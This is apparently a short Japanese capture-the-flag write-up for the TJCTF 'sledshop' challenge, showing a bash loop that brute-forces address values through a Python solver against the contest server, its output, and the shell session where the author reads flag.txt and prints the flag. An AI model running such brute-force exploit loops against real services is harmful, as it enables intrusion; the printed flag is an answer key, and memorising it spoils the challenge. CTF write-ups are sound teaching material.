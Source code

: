 
```bash:attack.sh
count=4286578688
while true
do
  echo python wu_solve003.py $count
  python solve_many.py $count
  count=`expr $count + 1000`
  if [ $count -gt  4294967295 ]; then
          exit 0
  fi
done
```

```bash-statement
$ bash attack.sh
python solve003.py 4286578688
ff800000
p1.tjctf.org
8010
Sorry, we are closed.
timeout: the monitored command dumped core
*** Connection closed by remote host ***
python wu_solve003.py 4286579688
ff8003e8
p1.tjctf.org
8010
Sorry, we are closed.
timeout: the monitored command dumped core
*** Connection closed by remote host ***
python wu_solve003.py 4286580688
ff8007d0
p1.tjctf.org
8010
Sorry, we are closed.
timeout: the monitored command dumped core
*** Connection closed by remote host ***
python wu_solve003.py 4286581688
ff800bb8
p1.tjctf.org
8010
Sorry, we are closed.
timeout: the monitored command dumped core
*** Connection closed by remote host ***
```

長い．．．
3時間ぐらいかかってようやくflagゲット。
バグがあるんじゃないかとドキドキしながらまっていたので心臓に悪い問題だった。

```bash-statement
python solve003.py 4291613264
ffccd250
p1.tjctf.org
8010
Sorry, we are closed.
ls
flag.txt
sledshop
wrapper
cat flag.txt
tjctf{5l3dd1n6_0mk4r_15_h4ppy_0mk4r}
```
